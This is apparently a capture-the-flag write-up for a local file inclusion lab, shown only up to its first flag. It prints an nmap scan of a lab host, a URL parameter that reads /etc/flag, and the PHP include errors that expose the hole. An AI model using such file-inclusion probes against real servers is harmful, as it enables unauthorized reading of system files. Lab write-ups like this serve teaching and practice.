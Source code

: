 # LFI


## Flag 1 - view /etc/flag
nmap
```
nmap -sC -sV 10.10.204.37 -oN nmap/init
Starting Nmap 7.80 ( https://nmap.org ) at 2021-12-18 04:14 EST
Nmap scan report for 10.10.204.37
Host is up (0.26s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6d:07:d3:36:85:e3:3d:17:90:45:92:23:10:bf:d3:33 (RSA)
|   256 f4:e8:ff:5c:c8:90:de:b4:bc:0b:e5:9f:a5:62:88:9f (ECDSA)
|_  256 43:0c:fb:ff:d4:6d:a5:1b:15:ed:70:05:8c:0f:f5:0d (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: nginx/1.14.0 (Ubuntu)
| http-title: Site doesn't have a title (text/html).
|_Requested resource was index.php?err=error.txt
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.76 seconds
```

Visit page (port 80). First page lands on `https://10.10.204.37/index.php?err=/etc/flag`

Visit `http://10.10.204.37/index.php?err=doesntexist` shows helpful error regarding file inclusion

```
Warning
: include(doesntexist) [
function.include
]: failed to open stream: No such file or directory in
/var/www/html/index.php
on line
23


Warning
: include() [
function.include
]: Failed opening 'doesntexist' for inclusion (include_path='.:/usr/lib/php5.2/lib/php') in
/var/www/html/index.php
on line
23
```
